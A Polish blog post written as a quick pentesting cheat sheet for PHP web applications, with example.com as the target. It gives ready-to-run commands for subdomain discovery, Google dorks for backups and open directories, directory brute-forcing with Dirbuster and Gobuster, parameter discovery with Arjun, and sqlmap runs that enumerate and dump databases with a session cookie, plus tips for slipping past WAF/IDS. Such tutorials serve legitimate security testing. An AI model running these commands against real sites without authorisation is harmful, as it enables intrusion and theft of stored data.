 ```yaml
---
layout: post
title: SQL-injection - quick and dirty way
subtitle: Testowanie bezpieczeństwa webowej aplikacji napisanej w PHP
#gh-repo: daattali/beautiful-jekyll
#gh-badge: [star, fork, follow]
tags: [PHP,pentesting,security]
comments: true
---
```



Szybki #pwn-ing aplikacji webowej.
Artykuł ten może służyć jako cheatsheet do testów penetracyjnych aplikacji webowej napisanej w języku PHP. Skupiony jest głównie na poszukiwaniu podatności typu SQL-injection z wykorzystaniem gotowych narzędzi, ale niektóre jego elementy przy delikatnej modyfiacji mogą znaleźć zastosowanie w innych przypadkach. Na chwilę obecną nie zamierzam również dokładnie opisywać działania wszystkich użytych narzędzi, być może w przyszłości artykuł zostanie rozbity na mniejsze, bardziej szczegółowe części. Tymczasem, przejdźmy do sedna.

Załóżmy że celem naszych testów będzie domena example.com

## Zbieranie informacji o subdomenach:


### https://dnsdumpster.com

Podajemy nazwę domeny w celu wyszukania rekordów DNS. Zapisujemy zwrócone Host Records (A) które bedą nam potrzebne do dalszej analizy.

### https://crt.sh

Strona crt.sh pozwala wyszukać zarejestrowane certyfikaty dla danej domeny. Przy użyciu wildcard-a możemy także wyszukać subdomeny.

%.example.com


### dnsenum -
Link: https://github.com/fwaeytens/dnsenum

```
dnsenum example.com  -f /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --threads 50
```  

### Google dorks:

Przy pomocy wyszukiwarki google możemy znaleźć wiele informacji przydatnych podczas pentestów, przykładowo:

__Pliki PHP__

```
site:example.com inurl:php
```

__parametry HTTP__

```
inurl:example.com/index.php
```

Jeżeli powyższy dork zwraca dużą ilosć wyników możemy go ogarniczyć poprzez usunięcie z wyników niechcianych ciągów znaków. 
```
inurl:example.com/index.php -id
```
Pozwoli nam to na łatwiejsze odnalezienie pozostaych parametrów HTTP.


__Foldery z włączonym listowaniem plików__

```
site:example.com title:Index of

site:example.com Parent Directory
```

__Kopie bezpieczeństwa__

```
site:example.com backup
```



## Brutforce contentu strony:  


### Dirbuster - korzystamy z GUI
Preinstalowany w dystrybucji Kali Linux
https://tools.kali.org/web-applications/dirbuster

Dirbuster pozwoli nam na znalezienie zamieszczonych na serwerze www folderów i plików. Najbardziej interesuja nas te z rozszerzeniem *.php Warto jednak przejrzeć wszystkie znaleziska. Podczas przeprowadzanych przeze mnie testów bezpieczeństwa zdażyły się sytuacje gdzie folder odnaleziony pod adresem http://example.com/backup zawierał backup bazy danych lub kodu aplikacji. Często możemy się również natknąć podaność typu Full Path Disclosure.

target url: https://example.com 
Jako target możemy również wybrać wszystkie subdomeny znalezione poprzez opisane wcześniej metody.
Słownik - /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
zaznaczamy checkboxy - Brute Force Dirs, Be Recursive, Brute Force 
Files File extension: php

Czasem zdarza się że WAF/IDS/IPS nie pozwoli nam na jednoczesny bruteforce plików i katalogów, w takiej sytuacji możemy spróbować przeprowadzić dwa oddzielne testy.
W ustawieniach narzędzia warto również zmienić domyślny nagłówek Http User Agent. W tym celu wybieramy Options > Advanced Options > Http Options

### Gobuster

Podobnie jak Dirbuster pozwala nam bruteforce zawartości serwera www. Nie posiada on jednak GUI


Link: https://github.com/OJ/gobuster

```
gobuster dir -u https://example.com/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e -t 50 -x php
```


### Arjun
Link: https://github.com/s0md3v/Arjun

Arjun pomaga nam dowiedziec się jakie parametry HTTP moga być przekazywane do aplikacji webowej. Załóżmy sytuację w której za pomocą Google dorks znaleźliśmy adres https://example.com/index.php. Nie znając zawartości pliku index.php nie wiemy jakie parametry może przyjmować. 

```
python3 arjun.py -u https://example.com/index.php
```

Znalezione w ten sposób parametry mozna później wykorzystać przy szukaniu podatności typu XSS lub SQL-injection.



## Do tej pory powinniśmy zebrać informacje takie jak:


### Subdomeny:

subdomain1.example.com
subdomain2.example.com
(...).example.com

### Pliki php umieszczone na serwerach www:

http://example.com/index.php
https://domain2.example.com/posts.php

### Parametry HTTP przekazywane do aplikacji webowej.

http://example.com/index.php?id=2
https://domain2.example.com/posts.php?name=test

Do wyszukania podatności SQL-i wykorzystamy narzędzie 

### sqlmap
https://github.com/sqlmapproject/sqlmap


```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --dbs --batch
```

Jeżeli testujemy aplikację w kontekscie zalogowanego użytkownika  do komendy należy dodać jego ciasteczka.

```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --dbs --batch --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```

Przy znalezionej podatności opcja --dbs pozwoli nam pobrać nazwy baz danych. Listujemy tabele wybranej bazy danych poprzez opcję --tables
 
```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --batch -D NAZWABAZYDANYCH --tables --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```

Następnie za pomocą opcji --columns wyświetlamy nazwy kolumn.

```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --batch -D NAZWABAZYDANYCH -T NAZWATABELI --columns --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```

Znamy już nazwy tabel oraz zawartych w nich kolumn, aby pobrać ich zawartość wykonujemy polecenie:

```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --batch -D NAZWABAZYDANYCH -T NAZWATABELI -C NAZWAKOLUMNY1,NAZWAKOLUMNY2 --dump --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```


